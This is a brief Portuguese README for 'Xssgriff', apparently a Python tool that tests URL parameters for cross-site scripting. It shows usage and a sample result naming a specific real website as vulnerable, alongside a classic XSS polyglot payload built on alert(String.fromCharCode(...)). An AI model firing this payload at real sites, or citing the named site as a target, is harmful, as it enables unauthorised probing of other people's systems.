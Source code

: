 Xssgriff, script para analizar vulnerabilidade em XSS.

Modo de uso:
python xss.py 
url : teste.com.br/page?parameter=

URL: http://www.koinonia.org.br/tpdigital/detalhes.asp?cod_artigo=161&cod_boletim=9&tipo=
Vulneravel: ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

https://raw.githubusercontent.com/OfJAAH/xssgriff/master/xss.jpg

Ao final, mostrando os payloads vulneraveis.

https://www.facebook.com/JRPENTESTER
